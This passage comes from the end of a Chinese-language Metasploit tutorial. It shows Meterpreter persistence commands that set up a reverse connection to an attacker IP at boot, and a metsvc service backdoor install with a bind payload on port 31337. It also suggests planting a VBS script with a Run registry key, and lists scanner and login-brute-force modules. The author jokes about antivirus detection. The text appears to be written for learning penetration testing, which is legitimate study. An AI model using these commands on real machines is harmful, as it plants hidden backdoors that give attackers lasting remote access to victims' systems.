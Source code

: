 ```
run persistence –h  #查看帮助
run persistence -X -i 5 -p 4444 -r 192.168.175.145
#-X指定启动的方式为开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
```

可看到在目标机的 C:\Users\dayu\AppData\Local\Temp\ebagFvdP.vbs 下建立了 vbs 文件，开机会启动这个文件上面的 vbs 文件…

监听写反弹时间间隔是 5s 端口是 443 Metasploit 服务器 Ip 是 192.168.175.145。

缺点是容易被杀毒软件查杀！，建议思路是：

```
在C:\Users***\AppData\Local\Temp\目录下，上传一个vbs脚本
在注册表HKLM\Software\Microsoft\Windows\CurrentVersion\Run\加入开机启动项
```

2）metsvc 服务后门  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaiblUMexLf56hNddrUrHNealXEmgyr8DF5zmSw74JKrFich9AKNLsw1Cgw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibKkJGgLKnt5CSsG9FuXUiajloZm7nWdGCBWXK6PImpzCxNyE02SIIaLQ/640?wx_fmt=png)

```
run metsvc –h   # 查看帮助
run metsvc –A   #自动安装后门
```

可看到自动在 C:\Users\dayu\AppData\Local\Temp\ccNTBztKL 生成三个文件，并把 Meterpreter 自动放在服务自启中

```
set payload windows/metsvc_bind_tcp
并把port设置31337端口即可...连接
```

两种方法都很简单，但是杀软不一定放行哦，哈哈~~

16. 扫描脚本

这里并不能少了扫描这个项目，因为现在大多数的信息收集都是有自己的可用工具，或者是 dir、御剑等等非常实用的工具，但是这里我还是提提吧… 也是功能之一，万一用上了…  

```
/usr/share/metasploit-framework/modules/auxiliary/scanner/
在这个目录下是扫描脚本，可以修改的
```

```
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/jboss_vulnscan
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/oracle/oracle_login
常用的扫描脚本，枚举什么自己看文件名即可理解...
```

四、结束语

以上都是基础必须理解和会的思路和命令方法，大部分渗透人员都接触过 Metasploit 这款工具，多强大和实用我都体现出来了，不管是初学者还是资深者，都可以阅读。

这里只简单演示了 Metasploit-meterpreter 的基本功能，还有 Metasploit 一些思路：  
1、漏扫模块编写自己的扫描仪  
2、MSF 和 Nessus 联动合作，或进行各方面的漏扫等  
3、利用 Metasploit 写一个漏洞检查工具  
4、Metasploit 开发利用源码写 EXP  
5、开发 web 应用程序漏洞解决 Dot Defender 等  
6、嗅探、透视、隐身、无痕访问、爆破等等  
7、post 开发等等都可以操作…  
…

太多了，Metasploit 深入起来包罗万象，我也是学会了冰山一角，这篇文章如果对大家有帮助，那我写得就值得的，加油~

今天基础牢固就到这里，虽然基础，但是必须牢记于心。